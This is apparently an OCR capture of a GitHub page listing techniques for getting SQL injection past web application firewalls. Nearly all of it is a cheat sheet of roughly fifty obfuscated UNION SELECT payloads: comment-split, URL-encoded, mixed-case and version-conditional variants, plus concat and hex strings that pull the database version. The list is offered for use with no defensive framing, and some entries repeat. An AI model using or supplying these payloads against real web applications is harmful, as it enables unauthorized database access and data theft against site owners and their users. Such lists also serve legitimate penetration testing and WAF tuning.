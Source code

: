 
<b>An SQL Injection attack can successfully bypass the WAF , and be
conducted in all following cases:</b>
• Vulnerabilities in the functions of WAF request normalization.
• Application of HPP and HPF techniques.
• Bypassing filter rules (signatures).
• Vulnerability exploitation by the method of blind SQL Injection.
• Attacking the application operating logics (and/or)

<b>WAF Bypassing Strings.</b>

` /*!%55NiOn*/ /*!%53eLEct*/`
`  %55nion(%53elect 1,2,3)-- -`
`  +union+distinct+select+`
`  +union+distinctROW+select+`
`  /**//*!12345UNION SELECT*//**/`
`  concat(0x223e,@@version)`
`  concat(0x273e27,version(),0x3c212d2d)`
`  concat(0x223e3c62723e,version(),0x3c696d67207372633d22)`
`  concat(0x223e,@@version,0x3c696d67207372633d22)`
`  concat(0x223e,0x3c62723e3c62723e3c62723e,@@version,0x3c696d67207372633d22,0x3c62​723e)`
`  concat(0x223e3c62723e,@@version,0x3a,”BlackRose”,0x3c696d67207372633d22)`
`  concat(‘’,@@version,’’)`
`  /**//*!50000UNION SELECT*//**/`
`  /**/UNION/**//*!50000SELECT*//**/`
`  /*!50000UniON SeLeCt*/`
`  union /*!50000%53elect*/`
`  +#uNiOn+#sEleCt`
`  +#1q%0AuNiOn all#qa%0A#%0AsEleCt`
`  /*!%55NiOn*/ /*!%53eLEct*/`
`  /*!u%6eion*/ /*!se%6cect*/`
`  +un/**/ion+se/**/lect`
`  uni%0bon+se%0blect`
`  %2f**%2funion%2f**%2fselect`
`  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A`
`  REVERSE(noinu)+REVERSE(tceles)`
`  /*--*/union/*--*/select/*--*/`
`  union (/*!/**/ SeleCT */ 1,2,3)`
`  /*!union*/+/*!select*/`
`  union+/*!select*/`
`  /**/union/**/select/**/`
`  /**/uNIon/**/sEleCt/**/`
`  /**//*!union*//**//*!select*//**/`
`  /*!uNIOn*/ /*!SelECt*/`
`  +union+distinct+select+`
`  +union+distinctROW+select+`
`  +UnIOn%0d%0aSeleCt%0d%0a`
`  UNION/*&test=1*/SELECT/*&pwn=2*/`
`  un?+un/**/ion+se/**/lect+`
`  +UNunionION+SEselectLECT+`
`  +uni%0bon+se%0blect+`
`  %252f%252a*/union%252f%252a /select%252f%252a*/`
`  /%2A%2A/union/%2A%2A/select/%2A%2A/`
`  %2f**%2funion%2f**%2fselect%2f**%2f`
`  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A`
`  /*!UnIoN*/SeLecT+`
